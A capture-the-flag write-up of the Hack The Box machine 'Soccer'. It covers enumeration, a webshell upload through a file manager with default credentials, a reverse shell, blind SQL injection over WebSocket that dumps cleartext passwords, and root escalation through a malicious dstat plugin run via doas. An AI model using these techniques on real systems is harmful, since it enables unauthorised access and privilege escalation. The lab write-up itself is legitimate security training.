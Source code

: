 # Soccer

---

## Enumeration & Foothold

- nmap TCP scan:

```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
```

- Web server on port 80 reveals its domain name by redirecting to `soccer.htb`
- Gobuster dir scan revealed `/tiny/` path which is a file manager
- Default credentials worked to log in as admin `admin:admin@123`
- To get a foothold I uploaded a PHP webshell to `/tiny/uploads/shell.php` using the tiny file manager then executed a revshell payload


```bash
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.77] from (UNKNOWN) [10.129.113.252] 41590
bash: cannot set terminal process group (975): Inappropriate ioctl for device
bash: no job control in this shell
www-data@soccer:~/html/tiny/uploads$ which python3
which python3
/usr/bin/python3
www-data@soccer:~/html/tiny/uploads$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ads$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@soccer:~/html/tiny/uploads$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg                  
[1]  + continued  nc -lvnp 9001

www-data@soccer:~/html/tiny/uploads$ export TERM=xterm
www-data@soccer:~/html/tiny/uploads$ stty rows 39 cols 157
www-data@soccer:~/html/tiny/uploads$ 
```

---

## Lateral Movement

- The reverse shell is now as `www-data`
- Found a subdomain in `/etc/hosts`:

```
www-data@soccer:/home$ cat /etc/hosts
127.0.0.1       localhost       soccer  soccer.htb      soc-player.soccer.htb

127.0.1.1       ubuntu-focal    ubuntu-focal
```

- `soc-player.soccer.htb` Sends WebSocket requests on ticket validation
- WebSocket is vulnerable to blind sql injection, used [this script](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) with sqlmap to dump the database
- After enumerating the database, found db `soccer_db` and table `accounts`, dumped it and got `player` creds
- `Player`'s creds was in clear text: `Player:PlayerOftheMatch2022`

```
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

- This is also player's password on the target machine, `su player` and got user.txt

---

## PrivEsc

- Found an interesting setuid binary

```bash
player@soccer:~$ find / -perm -4000 2>/dev/null
/usr/local/bin/doas

player@soccer:/usr/local/bin$ ls -la doas
-rwsr-xr-x 1 root root 42224 Nov 17 09:09 doas
```

- After checking the man page, found the config file for `doas`:

```bash
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat

doas -u root /usr/bin/dstat --list
internal:
        aio,cpu,cpu-adv,cpu-use,cpu24,disk,disk24,disk24-old,epoch,fs,int,int24,io,ipc,load,lock,mem,mem-adv,net,page,page24,proc,
        raw,socket,swap,swap-old,sys,tcp,time,udp,unix,vm,vm-adv,zones
/usr/share/dstat:
        battery,battery-remain,condor-queue,cpufreq,dbus,disk-avgqu,disk-avgrq,disk-svctm,disk-tps,disk-util,disk-wait,dstat,dstat-cpu,
        dstat-ctxt,dstat-mem,fan,freespace,fuse,gpfs,gpfs-ops,helloworld,ib,innodb-buffer,innodb-io,innodb-ops,jvm-full,jvm-vm,lustre,
        md-status,memcache-hits,mongodb-conn,mongodb-mem,mongodb-opcount,mongodb-queue,mongodb-stats,mysql-io,mysql-keys,mysql5-cmds,mysql5-conn,
        mysql5-innodb,mysql5-innodb-basic,mysql5-innodb-extra,mysql5-io,mysql5-keys,net-packets,nfs3,nfs3-ops,nfsd3,nfsd3-ops,nfsd4-ops,
        nfsstat4,ntp,postfix,power,proc-count,qmail,redis,rpc,rpcd,sendmail,snmp-cpu,snmp-load,snmp-mem,snmp-net,snmp-net-err,snmp-sys,
        snooze,squid,test,thermal,top-bio,top-bio-adv,top-childwait,top-cpu,top-cpu-adv,top-cputime,top-cputime-avg,top-int,top-io,top-io-adv,
        top-latency,top-latency-avg,top-mem,top-oom,utmp,vm-cpu,vm-mem,vm-mem-adv,vmk-hba,vmk-int,vmk-nic,vz-cpu,vz-io,vz-ubc,wifi,zfs-arc,
        zfs-l2arc,zfs-zil
```

- I wrote a custom plugin, a simple python script that I can execute as root, it simply executes `chmod +s /bin/bash` and it worked.

```bash
player@soccer:/usr/local/share/dstat$ cp /tmp/games/dstat_poc.py .
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --list

...

/usr/local/share/dstat:
        poc

player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --poc
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
Module dstat_poc failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.'

player@soccer:/usr/local/share/dstat$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
player@soccer:/usr/local/share/dstat$ bash -p
bash-5.0# whoami
root
bash-5.0# 
```

---
